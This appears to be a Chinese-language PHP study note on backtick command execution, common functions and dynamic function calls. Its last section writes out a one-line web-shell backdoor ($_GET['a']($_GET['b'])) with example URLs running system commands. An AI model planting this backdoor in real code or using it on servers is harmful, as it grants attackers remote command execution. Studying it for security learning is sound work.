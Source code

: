 ![image-20240321203847232](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240321203847232.png)

## 符号

```php
` `  //反引号，自动适配并调用系统命令 echo `whoami`; 

@  //屏蔽表达式可能出现的错误   echo @$name;
```



## 函数

```php
unset()  //释放指定的变量  unset($name1);

var_dump() //输出变量的数据类型  var_dump($name1) 

exit; //结束整个php脚本的执行，可以exit(""); 同die() 语句；

mysqli_connect() //连接数据库 $db_link=mysqli_connect($db_host,$db_user,$db_pwd,$db_name)
mysqli_query() //执行sql  mysqli_query($db_link,$sql);
mysqli_close()  //关闭连接 mysqli_close($db_link)  
    
stristr() //判断是否包含字符串;  stristr(A,B)  判断A是否包含在B中
php_uname()  //判断操作系统类型
```





## 动态函数

```php
function a(){
    echo "A";
};

function b(){
    echo "B";
};

//动态函数
$func_name=$_GET['func_name']; //当浏览器使用GET请求时：http://locathost/test.php?func_name=a
$func_name();   //调用
```

所以，可以动态调用函数，包括已存在的函数，如phpinfo();

---

```php
//最简单的后门  xx(xx);
$_GET['a']($_GET['b']);
    
//http://locathost/test.php?a=assert&b=phpinfo()   ==>assert(phpinfo());
//http://locathost/test.php?a=system&b=ipconfig    ==>system(ipconfig);
```
